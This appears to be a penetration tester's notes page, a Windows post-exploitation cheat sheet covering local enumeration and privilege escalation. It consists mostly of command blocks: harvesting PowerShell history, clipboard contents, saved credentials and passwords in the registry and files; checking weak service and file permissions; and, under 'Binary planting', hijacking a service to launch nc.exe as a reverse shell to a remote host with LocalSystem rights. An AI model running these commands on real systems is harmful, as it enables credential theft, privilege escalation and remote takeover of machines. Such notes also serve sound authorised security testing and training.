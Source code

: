 
##### What system are we connected to?

```
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

##### Get tokens and privileges 

```
whoami /priv
Get-WmiObject win32_useraccount | Select name,sid
```

##### Get the hostname and username (if available)

```
hostname
echo %username%
```

##### Get users

```
net users
net user [username]
```

##### Get groups

```
get-LocalGroup | ft Name, SID
```

##### Networking stuff

```
ipconfig /all
```

##### Get session history 

```
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
Get-Content (Get-PSReadlineOption).HistorySavePath
```

##### Get user clipboard

```
Get-Clipboard
```

##### Find Printers

```
route print
```

##### ARP-arific

```
arp -A
```

##### Which protection settings enabled

```
Get-MpComputerStatus
```

##### Active network connections

See [[Find Open Ports]]
```
netstat -ano
```

##### Firewall fun (Win XP SP2+ only)

```
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
```

##### Scheduled tasks, see [[Scheduled Tasks]] and [[5. Standard Information/Operating Systems/Windows/Scheduled Tasks/1. Guide|Guide]]

```
schtasks /query /fo LIST /v
```

##### Running processes to started services

```
tasklist /SVC
net start
```

##### Driver madness
```
DRIVERQUERY
```

##### WMIC fun (Win 7/8 -- XP requires admin), use the `wmic_info` script

```
wmic /?
```

##### [[Saved Credentials]] 

```
cmdkey /list
```

##### WMIC: check patch level

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```
wmic service get name,displayname,pathname,startmode
```
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
```
```
wmic product get name, version, vendor
```

##### Search pathces for given patch

```
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```

##### AlwaysInstallElevated fun

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

##### AutoRun (See [[AutoRun SysInternals]])

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
```
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

##### [[Registry Passwords]] 

```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Other commands to run to hopefully get what we need

```
dir /s *pass* == *cred* == *vnc* == *.config*
```
```
findstr /si password *.xml *.ini *.txt
```
```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```

##### Service permissions

```
sc query
```
```
sc qc [service_name]
```
See [[DLL Hijacking]]
```
sc qc dllsvc (See [[DLL Hijacking]] )
```
If NT Auth, see [[RegSVC Writable]]
```
sc qc regsvc
```
If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]]
```
sc qc filepermsvc
```

##### Accesschk stuff

```
accesschk.exe /accepteula (always do this first!!!!!)
```
```
accesschk.exe /accepteula -uwcqv user daclsvc
```
```
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
```
```
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
```
```
accesschk.exe -ucqv [service_name]
```
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

##### Find all weak folder permissions per drive.

```
accesschk.exe -uwdqs Users c:\
```
```
accesschk.exe -uwdqs "Authenticated Users" c:\
```

##### Find all weak file permissions per drive.

```
accesschk.exe -uwqs Users c:\*.*
```
```
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

##### Binary planting

```
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
```
```
sc config [service_name] obj= ".\LocalSystem" password= ""
```
```
sc qc [service_name] (to verify!)
```
```
net start [service_name]
```

##### Driver querying

```
driverquery /v /fo csv
```
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```
